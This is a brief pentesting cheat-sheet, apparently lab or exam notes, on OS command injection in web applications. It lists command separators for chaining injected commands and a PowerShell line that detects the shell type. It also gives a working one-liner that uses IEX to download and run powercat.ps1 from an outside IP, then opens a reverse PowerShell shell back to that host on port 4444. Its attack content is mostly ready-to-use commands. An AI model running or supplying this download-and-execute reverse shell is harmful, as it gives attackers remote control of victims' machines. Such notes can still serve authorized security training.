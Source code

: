 
## OS Command Injection


Many times web application needs to interact to OS and developers directly takes users input, sanitize it and prepare it to interact with OS.
This can lead to security issues of OS command injection.


Note: we can use `;`, `&&`, `&` to pass other command after command if required. There could be a more way


```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
This cmd can be useful to identify shell type in windows


For downloading file in PowerShell
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```


we have powercat implementation of nc in 
```
/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1
```



